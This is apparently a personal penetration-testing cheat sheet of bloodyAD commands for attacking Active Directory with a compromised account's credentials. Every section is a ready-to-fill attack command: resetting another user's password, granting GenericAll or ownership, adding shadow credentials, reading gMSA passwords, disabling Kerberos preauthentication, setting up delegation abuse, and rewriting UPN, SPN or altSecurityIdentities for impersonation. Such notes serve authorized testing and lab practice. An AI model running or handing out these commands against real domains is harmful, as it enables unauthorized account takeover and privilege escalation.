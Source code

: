 # bloodyad
#plateform/linux #target/remote #cat/ATTACK

## Set password
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set password '<target_user>' '<new_passwd|Password123!>'
```

## Get writable
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' get writable
```

## Set owner
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set owner '<target_obj>' '<our_acc>'
```

## Add GenericAll
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add genericAll '<target_obj>' '<our_acc>'
```

## Add group member
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add groupMember '<group>' '<member>'
```
## Shadow Creds
```
bloodyAD --host <target> -d <domain>  -u '<user>' -p '<passwd>' add shadowCredentials <target_user>
```

## Enum Deleted User
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' -k get writable --include-del
```

## Restore Deleted User
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' -k set restore <target_name>
```

## ReadGMSAPassword
```
bloodyAD --host <target> -d <domain> -u <user> -p <passwd> get object <target_username> --attr msDS-ManagedPassword
```

## Disable preauth
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add uac '<target_obj>' -f DONT_REQ_PREAUTH
```

## Add RBCD
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add rbcd '<target_obj>' '<service_acc>'
```

## Enable Account
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' remove uac '<account>' -f ACCOUNTDISABLE
```

## TRUSTED_TO_AUTH_FOR_DELEGATION 
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add uac <target_username> -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

## Modify UPN
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set object <old_upn> userPrincipalName -v <new_upn>
```

## Mail Attribute
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set object <target_user> mail -v <newmail@test.local>
```

## Write SPN
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set object <target>servicePrincipalName -v '<domain/meow>'
```

## ESC14B - Modify the altSecurityIdentities attribute
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set object <target_user> altSecurityIdentities -v 'X509:<RFC822>pain@meow.local'
```
